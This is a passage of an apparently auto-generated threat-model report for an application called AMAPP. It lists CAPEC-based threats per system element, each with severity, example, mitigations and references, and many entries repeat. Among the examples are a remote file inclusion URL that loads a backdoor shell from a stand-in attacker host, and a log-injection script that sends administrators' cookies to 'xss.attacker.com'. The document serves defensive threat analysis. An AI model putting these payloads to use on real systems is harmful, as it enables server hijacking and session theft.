  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>URL string http://www.example.com/vuln_page.php?file=http://www.hacker.com/backdoor_ contains an external reference to a backdoor code file stored in a remote location (http://www.hacker.com/backdoor_shell.php.) Having been uploaded to the application, this backdoor can later be used to hijack the underlying server or gain access to the application database.</p>
  <h6>Mitigations</h6>
  <p>Minimize attacks by input validation and sanitization of any user data that will be used by the target application to locate a remote file to be included.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/253.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP35   --   Leverage Alternate Encoding</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Microsoft Internet Explorer 5.01 SP4, 6, 6 SP1, and 7 does not properly handle unspecified encoding strings, which allows remote attackers to bypass the Same Origin Policy and obtain sensitive information via a crafted web site, aka Post Encoding Information Disclosure Vulnerability. Related Vulnerabilities CVE-2010-0488Adversaries may attempt to make an executable or file difficult to discover or analyze by encrypting, encoding, or otherwise obfuscating its contents on the system or in transit. This is common behavior that can be used across different platforms and the network to evade defenses.</p>
  <h6>Mitigations</h6>
  <p>Assume all input might use an improper representation. Use canonicalized data inside the application; all data must be converted into the representation used inside the application (UTF-8, UTF-16, etc.)Assume all input is malicious. Create a white list that defines all valid input to the software system based on the requirements specifications. Input that does not match against the white list should not be permitted to enter into the system. Test your decoding process against malicious input.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/267.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC15   --   Schema Poisoning</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>In a JSON Schema Poisoning Attack, an adervary modifies the JSON schema to cause a Denial of Service (DOS) or to submit malicious input: { title: Contact, type: object, properties: { Name: { type: string }, Phone: { type: string }, Email: { type: string }, Address: { type: string } }, required: [Name, Phone, Email, Address] } If the &#x27;name&#x27; attribute is required in all submitted documents and this field is removed by the adversary, the application may enter an unexpected state or record incomplete data. Additionally, if this data is needed to perform additional functions, a Denial of Service (DOS) may occur.In a Database Schema Poisoning Attack, an adversary alters the database schema being used to modify the database in some way. This can result in loss of data, DOS, or malicious input being submitted. Assuming there is a column named name, an adversary could make the following schema change: ALTER TABLE Contacts MODIFY Name VARCHAR(65353); The Name field of the Conteacts table now allows the storing of names up to 65353 characters in length. This could allow the adversary to store excess data within the database to consume system resource or to execute a DOS.</p>
  <h6>Mitigations</h6>
  <p>Design: Protect the schema against unauthorized modification.Implementation: For applications that use a known schema, use a local copy or a known good repository instead of the schema reference supplied in the schema document.Implementation: For applications that leverage remote schemas, use the HTTPS protocol to prevent modification of traffic in transit and to avoid unauthorized modification.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/271.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC18   --   Session Hijacking - ClientSide</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>Cross Site Injection Attack is a great example of Session Hijacking. Attacker can capture victim’s Session ID using XSS attack by using javascript. If an attacker sends a crafted link to the victim with the malicious JavaScript, when the victim clicks on the link, the JavaScript will run and complete the instructions made by the attacker.</p>
  <h6>Mitigations</h6>
  <p>Properly encrypt and sign identity tokens in transit, and use industry standard session key generation mechanisms that utilize high amount of entropy to generate the session key. Many standard web and application servers will perform this task on your behalf. Utilize a session timeout for all sessions. If the user does not explicitly logout, terminate their session after this period of inactivity. If the user logs back in then a new session key should be generated.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/593.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP41   --   Argument Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>A recent example instance of argument injection occurred against Java Web Start technology, which eases the client side deployment for Java programs. The JNLP files that are used to describe the properties for the program. The client side Java runtime used the arguments in the property setting to define execution parameters, but if the attacker appends commands to an otherwise legitimate property file, then these commands are sent to the client command shell. [R.6.2]</p>
  <h6>Mitigations</h6>
  <p>Design: Do not program input values directly on command shell, instead treat user input as guilty until proven innocent. Build a function that takes user input and converts it to applications specific types and values, stripping or filtering out all unauthorized commands and characters in the process.Design: Limit program privileges, so if metacharacters or other methods circumvent program input validation routines and shell access is attained then it is not running under a privileged account. chroot jails create a sandbox for the application to execute in, making it more difficult for an attacker to elevate privilege even in the case that a compromise has occurred.Implementation: Implement an audit log that is written to a separate host, in the event of a compromise the audit log may be able to provide evidence and details of the compromise.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/6.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC20   --   Reusing Session IDs (aka Session Replay) - ClientSide</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>OpenSSL and SSLeay allow remote attackers to reuse SSL sessions and bypass access controls. See also: CVE-1999-0428Merak Mail IceWarp Web Mail uses a static identifier as a user session ID that does not change across sessions, which could allow remote attackers with access to the ID to gain privileges as that user, e.g. by extracting the ID from the user&#x27;s answer or forward URLs. See also: CVE-2002-0258</p>
  <h6>Mitigations</h6>
  <p>Always invalidate a session ID after the user logout.Setup a session time out for the session IDs.Protect the communication between the client and server. For instance it is best practice to use SSL to mitigate man in the middle attack.Do not code send session ID with GET method, otherwise the session ID will be copied to the URL. In general avoid writing session IDs in the URLs. URLs can get logged in log files, which are vulnerable to an attacker.Encrypt the session data associated with the session ID.Use multifactor authentication.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/60.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC21   --   Cross Site Request Forgery</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>While a user is logged into his bank account, an attacker can send an email with some potentially interesting content and require the user to click on a link in the email. The link points to or contains an attacker setup script, probably even within an iFrame, that mimics an actual user form submission to perform a malicious activity, such as transferring funds from the victim&#x27;s account. The attacker can have the script embedded in, or targeted by, the link perform any arbitrary action as the authenticated user. When this script is executed, the targeted application authenticates and accepts the actions based on the victims existing session cookie.See also: Cross-site request forgery (CSRF) vulnerability in util.pl in @Mail WebMail 4.51 allows remote attackers to modify arbitrary settings and perform unauthorized actions as an arbitrary user, as demonstrated using a settings action in the SRC attribute of an IMG element in an HTML e-mail.</p>
  <h6>Mitigations</h6>
  <p>Use cryptographic tokens to associate a request with a specific action. The token can be regenerated at every request so that if a request with an invalid token is encountered, it can be reliably discarded. The token is considered invalid if it arrived with a request other than the action it was supposed to be associated with.Although less reliable, the use of the optional HTTP Referrer header can also be used to determine whether an incoming request was actually one that the user is authorized for, in the current context.Additionally, the user can also be prompted to confirm an action every time an action concerning potentially sensitive data is invoked. This way, even if the attacker manages to get the user to click on a malicious link and request the desired action, the user has a chance to recover by denying confirmation. This solution is also implicitly tied to using a second factor of authentication before performing such actions.In general, every request must be checked for the appropriate authentication token as well as authorization in the current session context.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/62.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC01   --   Privilege Abuse</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary that has previously obtained unauthorized access to certain device resources, uses that access to obtain information such as location and network information.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication and authorization mechanisms. A proven protocol is OAuth 2.0, which enables a third-party application to obtain limited access to an API.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/122.html, http://cwe.mitre.org/data/definitions/732.html, http://cwe.mitre.org/data/definitions/269.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DO02   --   Excessive Allocation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>In an Integer Attack, the adversary could cause a variable that controls allocation for a request to hold an excessively large value. Excessive allocation of resources can render a service degraded or unavailable to legitimate users and can even lead to crashing of the target.</p>
  <h6>Mitigations</h6>
  <p>Limit the amount of resources that are accessible to unprivileged users. Assume all input is malicious. Consider all potentially relevant properties when validating input. Consider uniformly throttling all requests in order to make it more difficult to consume resources more quickly than they can again be freed. Use resource-limiting settings, if possible.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/130.html, http://cwe.mitre.org/data/definitions/770.html, http://cwe.mitre.org/data/definitions/404.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR05   --   Encryption Brute Forcing</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>Low</p>
  <h6>Example Instances</h6>
  <p>In 1997 the original DES challenge used distributed net computing to brute force the encryption key and decrypt the ciphertext to obtain the original plaintext. Each machine was given its own section of the key space to cover. The ciphertext was decrypted in 96 days.</p>
  <h6>Mitigations</h6>
  <p>Use commonly accepted algorithms and recommended key sizes. The key size used will depend on how important it is to keep the data confidential and for how long.In theory a brute force attack performing an exhaustive key space search will always succeed, so the goal is to have computational security. Moore&#x27;s law needs to be taken into account that suggests that computing resources double every eighteen months.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/20.html, http://cwe.mitre.org/data/definitions/326.html, http://cwe.mitre.org/data/definitions/327.html, http://cwe.mitre.org/data/definitions/693.html, http://cwe.mitre.org/data/definitions/719.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE04   --   Audit Log Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The attacker alters the log contents either directly through manipulation or forging or indirectly through injection of specially crafted input that the target software will write to the logs. This type of attack typically follows another attack and is used to try to cover the traces of the previous attack. Insert a script into the log file such that if it is viewed using a web browser, the attacker will get a copy of the operator/administrator&#x27;s cookie and will be able to gain access as that user. For example, a log file entry could contain &lt;script&gt;new Image().src=&#x27;http://xss.attacker.com/log_cookie?cookie=&#x27;+encodeURI(document.cookie);&lt;/script&gt; The script itself will be invisible to anybody viewing the logs in a web browser (unless they view the source for the page).</p>
  <h6>Mitigations</h6>
  <p>Use Principle of Least Privilege to avoid unauthorized access to log files leading to manipulation/injection on those files. Do not allow tainted data to be written in the log file without prior input validation. Whitelisting may be used to properly validate the data. Use synchronization to control the flow of execution. Use static analysis tool to identify log forging vulnerabilities. Avoid viewing logs with tools that may interpret control characters in the file, such as command-line shells.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/268.html, https://capec.mitre.org/data/definitions/93.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Submit registration data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Submit registration data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Submit registration data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Submit registration data </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Submit registration data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Store user data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Store user data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Store user data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Store user data </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Store user data </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Review registration requests </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Review registration requests </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Review registration requests </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Review registration requests </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Review registration requests </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Update approval status </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Update approval status </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Update approval status </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Update approval status </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Update approval status </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Notify approval decision </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Notify approval decision </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Notify approval decision </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Notify approval decision </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR08   --   Client-Server Protocol Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Notify approval decision </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary could exploit existing communication protocol vulnerabilities and can launch MITM attacks and gain sensitive information or spoof client/server identities.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication protocols.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/220.html, http://cwe.mitre.org/data/definitions/757.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>
|

